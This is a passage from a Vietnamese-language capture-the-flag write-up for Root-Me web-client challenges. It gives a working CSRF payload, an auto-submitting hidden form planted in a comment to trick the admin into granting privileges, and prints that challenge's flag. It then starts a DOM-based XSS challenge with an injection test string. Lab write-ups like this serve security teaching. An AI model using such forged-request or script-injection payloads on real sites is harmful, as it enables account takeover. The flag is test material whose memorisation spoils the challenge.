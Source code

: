 - Chèn form submit vào phần comment để gửi cho admin đọc lừa admin ấn vô submit là lên quyền:

```
<form id="asd" action="http://challeng01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">                    
    <input type="text" name="username" value="admin">
    <input type="checkbox" value="on" name="status" checked>
    <button type="submit">Submit</button>
</form>
<script>document.getElementById("asd").submit()</script>
```

- Result:

![1](1/../img/12/Screenshot%20from%202023-01-27%2011-40-09.png)

```
Flag:  Csrf_Fr33style-L3v3l1!
```


# 13. XSS DOM Based - Introduction

- Thử XSS: `number = '; alert(1)//` thì bị dính:

![1](1/../img/13/Screenshot%20from%202023-01-11%2011-46-49.png)
